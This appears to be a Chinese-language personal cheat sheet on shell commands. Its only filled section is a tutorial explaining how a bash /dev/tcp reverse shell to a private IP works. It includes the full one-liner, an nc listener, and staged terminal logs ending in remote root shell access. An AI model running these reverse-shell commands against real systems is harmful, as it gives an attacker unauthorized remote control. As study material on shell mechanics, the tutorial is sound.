 # Shell Commands Cheat Sheet

[TOC]



## Res



## Shell Commands in Security
### Reverse Shell
`/bin/bash -i > /dev/tcp/10.201.61.194/5566 0>&1 2>&1`
1. bash -i 创建一个交互的bash shell。
2. /dev/tcp/是Linux中的一个特殊设备文件,实际这个文件是不存在的，它只是 bash 用来实现网络请求的一个接口。打开这个文件就相当于发出了一个socket调用，建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。同理，Linux中还存在/dev/udp/。
3. “>&”和“0>&1”
	1. 要想了解“>&”和“0>&1”，首先我们要先了解一下Linux文件描述符和重定向。linux shell下常用的文件描述符是：
		1. 标准输入(stdin) ：代码为 0 ，使用 < 或 <<
		2. 标准输出(stdout)：代码为 1 ，使用 > 或 >>
		3. 标准错误输出(stderr)：代码为 2 ，使用 2> 或 2>>
		4. 这里的”>&”与”&>”是等价的，都是表示混合输出，即标准输出1 + 错误输出2。其实 2>&1也是将标准错误输出重定向到标准输出中的意思。那么按照这个逻辑，“0>&1”就是将标准输入重定向到标准输出中。事实也就是如此，“0>&1”跟“0&>1”同样也是等价的。
4. 命令中的`0>&1` 和 `2>&1`按顺序对于前面的消息流，这个例子中分别对应的是 `/bin/bash` 和 `/dev/tcp/10.201.61.194/5566`。即`0>&1` 将 `/bin/bash`的 标准输入和错误输出（0）混合重定向（>&）到 `/dev/tcp/10.201.61.195/5566`的标准输出（1）。`2>&1`同理。

`nc -lkvp 7777`
1. -l 表示监听状态
2. -v 表示打印详细信息
3. -p 表示指定端口
4. -k 表示当前连接断开后不退出程序，继续等待下一个连接

```shell
# ---------------------------------------------------------------
# Victim:
[root@victim ~]$ bash -i > /dev/tcp/10.201.61.194/5566        # 第二步
[root@victim ~]$ hostname                                     # 第三步
[root@victim ~]$

# Attacker：
[root@hacker ~]$ nc -lvp 5566                                 # 第一步

Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::5566
Ncat: Listening on 0.0.0.0:5566
Ncat: Connection from 10.201.61.195.
Ncat: Connection from 10.201.61.195:49018.

victim 
# 测试1结果：实现了将受害端的标准输出重定向到攻击端，但是还没实现用命令控制受害端。


# ----------------------------------------------------------------
# Victim:
[root@victim ~]$ bash -i < /dev/tcp/10.201.61.194/5566        # 第二步
[root@victim ~]$ hostname
victim

# Attacker：
[root@hacker ~]$ nc -lvp 5566                                 # 第一步
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::5566
Ncat: Listening on 0.0.0.0:5566
Ncat: Connection from 10.201.61.195.
Ncat: Connection from 10.201.61.195:50412.
hostname                                                      # 第三步（攻击端执行命令）
# 测试2结果：实现了将攻击端的输入重定向到受害端，但是攻击端看不到命令执行结果。


# ----------------------------------------------------------------
# Victim:
[root@victim ~]$ bash -i > /dev/tcp/10.201.61.194/5566 0>&1   # 第二步
[root@victim ~]$ hostname                                     # 受害端回显命令
[root@victim ~]$ id                                           # 受害端回显命令
[root@victim ~]$ hahaha                                       # 受害端回显命令
bash: hahaha: command not found                               # 受害端回显命令。显示错误命令的输出。

# Attacker：
[root@hacker ~]$  nc -lvp 5566                                # 第一步
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::5566
Ncat: Listening on 0.0.0.0:5566
Ncat: Connection from 10.201.61.195.
Ncat: Connection from 10.201.61.195:36792.
hostname                                                      # 第三步（攻击端执行命令）
victim
id                                                            # 第四步（攻击端执行命令）
uid=0(root) gid=0(root) groups=0(root)
hahaha                                                        # 第五步（执行一个错误的命令）

# 测试3结果：基本实现了反弹shell的功能。但是受害端的机器上依然回显了攻击者机器上执行的命令，且攻击端看不到错误命令的输出。


# ----------------------------------------------------------------
# Victim:
[root@victim ~]$ bash -i > /dev/tcp/10.201.61.194/5566 0>&1 2>&1 # 第二步。 
# 或bash -i &> /dev/tcp/10.201.61.194/5566 0>&1  （注：&>或>& 表示混合输出，即标准输出1 + 错误输出2）

# Attacker：
[root@hacker ~]$ nc -lvp 5566                                    # 第一步
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::5566
Ncat: Listening on 0.0.0.0:5566
Ncat: Connection from 10.201.61.195.
Ncat: Connection from 10.201.61.195:51182.
[root@victim ~]$ hostname                                        # 第三步。测试4结果：攻击端已获得受害端的远程交互式shell，而且受害端没有再回显攻击端输入的命令~
hostname
victim

# PS：由测试3、测试4对比可见，标准错误2不仅显示错误信息的作用，居然还有回显输入命令和终端提示符的作用~~~
```



## Shell Commands in Development



## Shell Commands in Others



## Ref

[反弹shell原理与实现 - PHP架构师之路的文章 - 知乎]: https://zhuanlan.zhihu.com/p/138393396

[反弹bash shell命令详解]: https://www.cnblogs.com/pandana/p/16289320.html)]: https://www.cnblogs.com/pandana/p/16289320.html

